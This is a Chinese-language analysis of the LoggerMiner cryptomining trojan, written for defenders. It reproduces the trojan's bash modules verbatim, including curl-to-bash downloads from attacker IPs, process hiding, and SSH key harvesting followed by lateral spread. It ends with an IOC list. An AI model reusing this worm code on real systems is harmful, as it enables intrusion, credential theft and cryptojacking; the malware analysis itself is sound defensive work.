





# LoggerMiner挖矿木马分析

LoggerMiner挖矿木马分为三个模块。

分别是`xanthe`、`fczyo`、`xesa`

## xanthe模块分析

### 函数执行的步骤如下

```
initializego
filegetgo
filesetupgo
#filerungo
sshdconfig
resetsshgo
# scancheck
# scango
#stopscan
localgo
```

#### initializego模块

```bash
initializego() {
	if test -f /tmp/.firstrun-update_ivan1.pid; then
		echo "pid exists, skip to next section"
	else
		curl -A xanthe-start/1.4 -sL http://34.92.166.158:8080/files/xesa.txt | bash -s >/dev/null 2>&1
		echo "################################################xesa DONE######################################################"
		curl -A xanthe-start/1.4 -sL http://34.92.166.158:8080/files/fczyo | bash -s >/dev/null 2>&1
		echo "################################################fczyo DONE######################################################"
		## Reporting in
		PROC=`(nproc --all)`
		MEM=`(free -h | gawk '/Mem:/{print $2}' | rev | cut -c 2- | rev | xargs printf "%.*f\n" 0)`
		echo "p:$PROC, m:$MEM"
		#https://iplogger.org/10xNq3
		curl -A xanthecheck-$PROC.$MEM -sL https://iplogger.org/1mNyp7 >/dev/null
		# curl -A xanthecheck-$PROC.$MEM -sL http://34.92.166.158:8080/files/init >/dev/null
		touch /tmp/.firstrun-update_ivan1.pid
		chattr +ia /tmp/.firstrun-update_ivan1.pid;
	fi
}
```

xanthe模块首先会检查感染标识文件/tmp/.firstrun-update_ivan1.pid是否存在，如果不存在则进行感染，下载并执行xesa和fczyo模块。

#### filegetgo模块

```bash
filegetgo() {
	
	java_c_arr=("http://34.92.166.158:8080/files/java_c" "http://139.162.124.27:8080/files/java_c")
	config_arr=("http://34.92.166.158:8080/files/config.json" "http://139.162.124.27:8080/files/config.json")
	lib_arr=("http://34.92.166.158:8080/files/libprocesshider.so"  "http://139.162.124.27:8080/files/libprocesshider.so")
	if ( test -f /usr/local/lib/libprocesshider.so ) && ( md5sum --status -c - <<<"025685efeb19a7ad403f15126e7ffb5a /usr/local/lib/libprocesshider.so" ) 
	then
		echo "libprocesshider file exists"
		echo "libprocesshider file right"
	else
		for (( i = 0; i < 2; i++ )); do
			if ( test -f /usr/local/lib/libprocesshider.so ) && ( md5sum --status -c - <<<"025685efeb19a7ad403f15126e7ffb5a /usr/local/lib/libprocesshider.so" ) 
			then
				echo "libprocesshider file exists"
				echo "libprocesshider file right"
				break;
			else
				echo ${lib_arr[i]}
				curl -A filegetgo/1.5 --create-dirs -sL -o /usr/local/lib/libprocesshider.so ${lib_arr[i]}
			fi
		done
	fi
	if ( test -f /var/tmp/java_c/config.json ) && (cat /var/tmp/java_c/config.json|grep -vw grep | grep '"url": "139.162.124.27:7738"'>/dev/null)
	then
			echo "config file exists"
			echo "config file right"
	else
		for (( i = 0; i < 2; i++ )); do
			if ( test -f /var/tmp/java_c/config.json ) && (cat /var/tmp/java_c/config.json|grep -vw grep | grep '"url": "139.162.124.27:7738"'>/dev/null)
			then
				echo "config file exists"
				echo "config file right"
				break;
			else
				echo ${config_arr[i]}
				curl -A filegetgo/1.5 --create-dirs -sL -o /var/tmp/java_c/config.json ${config_arr[i]}
			fi
		done
	fi
	show
	if test -f /var/tmp/java_c/java_c; then
		echo "main java_c file exists"
		if md5sum --status -c - <<<"776227b07b2f1b82ffcc3aa38c3fae09 /var/tmp/java_c/java_c"; then
			echo "file CHECKSUM match"
		else
			echo "file exists but is not correct checksum, need to redownload"
			#FIRST***** CHECH IF CURRENTLY DOWNLOADING if [ $? -eq 0 ]
			ps aux | grep curl | grep -w /var/tmp/java_c/java_c | grep -v grep
			if [ $? -eq 0 ]; then
				echo "already downloading, Skip downloading"
			else
				echo "not currently downloading, starting download"
				chattr -R -ia /var/tmp/java_c
				rm -rf /var/tmp/java_c/java_c
				filegetgo
			fi
		fi
	else
		echo "java_c does not exist, downloading"
		echo always | sudo tee /sys/kernel/mm/transparent_hugepage/enabled
		chattr -R -iaeu /var/tmp || chattr -iau /tmp
		sysctl -w vm.nr_hugepages=$(nproc --all)
		#mkdir -p /tmp/bbb;
		#mkdir /var/tmp/bbb
		#curl --create-dirs -sL -o /var/tmp/java_c/java_c $urldirect1${directarray1[$RANDOM % ${#directarray1[@]}]} || curl --create-dirs -sL -o /tmp/java_c/bbb $urldirect1${directarray1[$RANDOM % ${#directarray1[@]}]};
		for (( i = 0; i < 2; i++ )); do
			if ( test -f /var/tmp/java_c/java_c ) && ( md5sum --status -c - <<<"776227b07b2f1b82ffcc3aa38c3fae09 /var/tmp/java_c/java_c" ) 
			then
				echo "java_c file exists"
				echo "java_c file right"
				chmod +x /var/tmp/java_c/java_c
				chattr +ia /var/tmp/java_c/java_c
				sysctl -w vm.nr_hugepages=$(nproc --all)
				echo always | sudo tee /sys/kernel/mm/transparent_hugepage/enabled
				/var/tmp/java_c/java_c
				sleep 10
				chattr +ia /var/tmp/java_c/java_c
				chmod 600 /var/tmp/java_c/log.log
				break;
			else
				echo ${java_c_arr[i]}
				curl -A filegetgo/1.5 --create-dirs -sL -o /var/tmp/java_c/java_c ${java_c_arr[i]}
			fi
		done
	fi
	hide
}
```

filegetgo模块首先会下载`java_c`挖矿主程序，并且校验哈希确保程序无异常，还通过隐藏进程来使进程不会显示在top中，这个操作会导致排查问题困难。

#### filesetupgo模块

```bash
filesetupgo() {
	show
	#chattr -iauR /var/tmp/java_c/
	mount | grep noexec | grep /tmp | grep -vw grep
	if [ $? -eq 1 ]; then
		echo "good to go - already running"
	else
		echo "remounting"
		mount -o remount,exec /var/tmp
		mount -o remount,exec /tmp
	fi
	j=0
	for i in $(ps -fe | grep 'java_c' | grep -v grep | grep -v http | awk '{print $2}'); do
		let j=j+1
		if [ $j -ge 2 ]; then
			echo "Killing process $i"
			kill -9 $i
		fi
	done
	ps -fe | grep -w java_c | grep -v grep | grep -v http
	if [ $? -eq 0 ]; then
		echo "RUNNING"
		curl -A xanthe-running/1.2 -4sL https://iplogger.org/1mmup7 >/dev/null
	else
		echo "ERROR PROGRAM NOT RUNNING"
		#mkdir -p /var/tmp/bbb
		if md5sum --status -c - <<<"776227b07b2f1b82ffcc3aa38c3fae09 /var/tmp/java_c/java_c"; then
			echo "file checksums match, proceed to relaunch"
			filestartgo
		else
			echo "file checksums dont match...redownloading"
			filegetgo
		fi
	fi
	hide
}
```

#### filesetupgo模块

```bash
filesetupgo() {
	show
	#chattr -iauR /var/tmp/java_c/
	mount | grep noexec | grep /tmp | grep -vw grep
	if [ $? -eq 1 ]; then
		echo "good to go - already running"
	else
		echo "remounting"
		mount -o remount,exec /var/tmp
		mount -o remount,exec /tmp
	fi
	j=0
	for i in $(ps -fe | grep 'java_c' | grep -v grep | grep -v http | awk '{print $2}'); do
		let j=j+1
		if [ $j -ge 2 ]; then
			echo "Killing process $i"
			kill -9 $i
		fi
	done
	ps -fe | grep -w java_c | grep -v grep | grep -v http
	if [ $? -eq 0 ]; then
		echo "RUNNING"
		curl -A xanthe-running/1.2 -4sL https://iplogger.org/1mmup7 >/dev/null
	else
		echo "ERROR PROGRAM NOT RUNNING"
		#mkdir -p /var/tmp/bbb
		if md5sum --status -c - <<<"776227b07b2f1b82ffcc3aa38c3fae09 /var/tmp/java_c/java_c"; then
			echo "file checksums match, proceed to relaunch"
			filestartgo
		else
			echo "file checksums dont match...redownloading"
			filegetgo
		fi
	fi
	hide
}
```

filesetupgo模块在这里尝试重新挂载`/var/tmp`、`/tmp`目录。

#### sshdconfig模块



sshdconfig模块修改了ssh配置文件，启用22和33768端口进行连接，允许root账号通过密码登录，允许密钥登录等。

#### resetsshgo模块

```bash
resetsshgo() {
	if [ "$needreset" -eq "0" ]; then
		echo "no need"
	else
		sleep 10
		/etc/init.d/ssh restart
		/etc/init.d/sshd restart
		/etc/rc.d/sshd restart
		service ssh restart
		service sshd restart
		systemctl start ssh
		systemctl restart ssh
		scw-fetch-ssh-keys --upgrade
	fi
}
```

重新启动ssh服务。

#### localgo模块

```bash
localgo() {
	echo "localgo start"
	myhostip=$(curl -sL icanhazip.com)
	KEYS=$(find ~/ /root /home -maxdepth 3 -name 'id_rsa*' | grep -vw pub)
	KEYS2=$(cat ~/.ssh/config /home/*/.ssh/config /root/.ssh/config | grep IdentityFile | awk -F "IdentityFile" '{print $2 }')
	KEYS3=$(cat ~/.bash_history /home/*/.bash_history /root/.bash_history | grep -E "(ssh|scp)" | awk -F ' -i ' '{print $2}' | awk '{print $1'})
	KEYS4=$(find ~/ /root /home -maxdepth 3 -name '*.pem' | uniq)
	HOSTS=$(cat ~/.ssh/config /home/*/.ssh/config /root/.ssh/config | grep HostName | awk -F "HostName" '{print $2}')
	HOSTS2=$(cat ~/.bash_history /home/*/.bash_history /root/.bash_history | grep -E "(ssh|scp)" | grep -oP "([0-9]{1,3}\.){3}[0-9]{1,3}")
	HOSTS3=$(cat ~/.bash_history /home/*/.bash_history /root/.bash_history | grep -E "(ssh|scp)" | tr ':' ' ' | awk -F '@' '{print $2}' | awk -F '{print $1}')
	HOSTS4=$(cat /etc/hosts | grep -vw "0.0.0.0" | grep -vw "127.0.1.1" | grep -vw "127.0.0.1" | grep -vw $myhostip | sed -r '/\n/!s/[0-9.]+/\n&\n/;/^([0-9]{1,3}\.){3}[0-9]{1,3}\n/P;D' | awk '{print $1}')
	HOSTS5=$(cat ~/*/.ssh/known_hosts /home/*/.ssh/known_hosts /root/.ssh/known_hosts | grep -oP "([0-9]{1,3}\.){3}[0-9]{1,3}" | uniq)
	HOSTS6=$(ps auxw | grep -oP "([0-9]{1,3}\.){3}[0-9]{1,3}" | grep ":22" | uniq)
	USERZ=$(
		echo "root"
		find ~/ /root /home -maxdepth 2 -name '\.ssh' | uniq | xargs find | awk '/id_rsa/' | awk -F'/' '{print $3}' | uniq | grep -wv ".ssh"
	)
	USERZ2=$(cat ~/.bash_history /home/*/.bash_history /root/.bash_history | grep -vw "cp" | grep -vw "mv" | grep -vw "cd " | grep -vw "nano" | grep -v grep | grep -E "(ssh|scp)" | tr ':' ' ' | awk -F '@' '{print $1}' | awk '{print $4}' | uniq)
	sshports=$(cat ~/.bash_history /home/*/.bash_history /root/.bash_history | grep -vw "cp" | grep -vw "mv" | grep -vw "cd " | grep -vw "nano" | grep -v grep | grep -E "(ssh|scp)" | tr ':' ' ' | awk -F '-p' '{print $2}' | awk '{print $1}' | sed 's/[^0-9]*//g' | tr ' ' '\n' | nl | sort -u -k2 | sort -n | cut -f2- | sed -e "\$a22")
	userlist=$(echo "$USERZ $USERZ2" | tr ' ' '\n' | nl | sort -u -k2 | sort -n | cut -f2- | grep -vw "." | grep -vw "ssh" | sed '/\./d')
	hostlist=$(echo "$HOSTS $HOSTS2 $HOSTS3 $HOSTS4 $HOSTS5 $HOSTS6" | grep -vw 127.0.0.1 | tr ' ' '\n' | nl | sort -u -k2 | sort -n | cut -f2-)
	keylist=$(echo "$KEYS $KEYS2 $KEYS3 $KEYS4" | tr ' ' '\n' | nl | sort -u -k2 | sort -n | cut -f2-)
	i=0
	for user in $userlist; do
		for host in $hostlist; do
			for key in $keylist; do
				for sshp in $sshports; do
					((i++))
					if [ "${i}" -eq "20" ]; then
						sleep 5
						ps wx | grep "ssh -o" | awk '{print $1}' | xargs kill -9 &>/dev/null &
						i=0
					fi

					#Wait 5 seconds after every 20 attempts and clean up hanging processes

					chmod +r $key
					chmod 400 $key
					echo "$user@$host"
					ssh -oStrictHostKeyChecking=no -oBatchMode=yes -oConnectTimeout=3 -i $key $user@$host -p $sshp "sudo curl -A hostcheck/1.5 -L http://34.92.166.158:8080/files/xanthe | sudo bash -s;"
					ssh -oStrictHostKeyChecking=no -oBatchMode=yes -oConnectTimeout=3 -i $key $user@$host -p $sshp "curl -A hostcheck/1.5 -L http://34.92.166.158:8080/files/xanthe | bash -s;"
				done
			done
		done
	done
	# scangogo
	echo "local done"
}
```

localgo模块在系统中大量搜索known_hosts、bash_history等配置文件，获取密钥信息，然后利用ssh执行xanthe。

后面还有几个函数好像是作者没有写完，没有被调用过。



这是`scangogo`模块中的一段命令，它具有感染docker容器的能力，它通过批量扫描2375端口来外部访问docker，这就导致了docker容器沦陷。

## fczyo模块分析

### 函数执行步骤

```bash
nameservercheck
restartrcd
killcommondockers
removefuckboiskeys
firstthingsfirst
usercheckgo

#resetiptablespid
croncheckgo
checkrc
securitygo
iptableschecker
configfilecheck
filerungo
#restartdocker
addloggersshkey
addsystemsshkey
sshkeysgo
addautoupdatersshkey
fixsystem
fixlogger
fixgroupalreadyexists
successgo
```

挑几个功能比较明显的来分析

#### iptableschecker模块



对防火墙的配置进行更改

#### killcommondockers & removefuckboiskeys模块



结束掉其他挖矿程序的docker容器和ssh密钥。

#### sshkeysgo模块



添加loggerminer的密钥。

# IOCs
恶意URL

```
http://34.92.166.158:8080/files/xanthe

http://34.92.166.158:8080/files/fczyo

http://34.92.166.158:8080/files/xesa.txt

http://34.92.166.158:8080/files/java_c

http://34.92.166.158:8080/files/config.json

http://34.92.166.158:8080/files/libprocesshider.so

http://139.162.124.27:8080/files/xanthe

http://139.162.124.27:8080/files/fczyo

http://139.162.124.27:8080/files/xesa.txt

http://139.162.124.27:8080/files/java_c

http://139.162.124.27:8080/files/config.json

http://139.162.124.27:8080/files/libprocesshider.so

https://iplogger.org/11sxm

https://iplogger.org/17Cph7
```

Domain

```
iplogger.org
```

IP

```
34.92.166.158

139.162.124.27
```

恶意脚本MD5

```
776227b07b2f1b82ffcc3aa38c3fae09

70b3ad8f1ce58203c18b322b1d00dd9a

7309b0f891a0487b4762d67fe44be94a

7633912d6e1b62292189b756e895cdae

025685efeb19a7ad403f15126e7ffb5a

83acf5a32d84330bbb0103f2169e10bb
```

钱包地址

```
47TmDBB14HuY7xw55RqU27EfYyzfQGp6qKmfg6f445eihemFMn3xPhs8e1qM726pVj6XKtyQ1zqC24kqtv8fXkPZ7bvgSPU

47E4c2oGb92V2pzMZAivmNT2MJXVBj4TCJHad4QFs2KRjFhQ44Q81DPAjPCVc1KwoKQEp1YHdRMjGLUe6YdHPx5WEvAha1u
```

ssh密钥

```
AAAAB3NzaC1yc2EAAAADAQABAAABAQDLVZNrAJ1uzR7d2bm1iUQPAgjuBlyLQQNaEHVmACWtGwwiOKMPiFBfBjuNJIyZFnGkkFgJP5fi8v1eqliaBgqERUDDtW/RZDDIz8DovDrA4/MGlxpCHLeViN+F62W/jgeufiQ7NiPTlPB3Fuh7E7QXXpXqQ6EmVlV0iWdzqRvSiDIB3cIL6E2CrK47pY6Rp6rY2YKYzUhiZRqAMHViMR+2MARL2jERfF3CsG6ZXo/7UVVx+tqoKQDHPmz21mrulOF6RW5hh04dE2q1+/w6xmX8AxUSGmPdpwQa8GuV7NHHZmYO26ndTVi2ES472tJdkXVHmLX8B9Un42JLNVXwPU/Hlinux@linux.com
```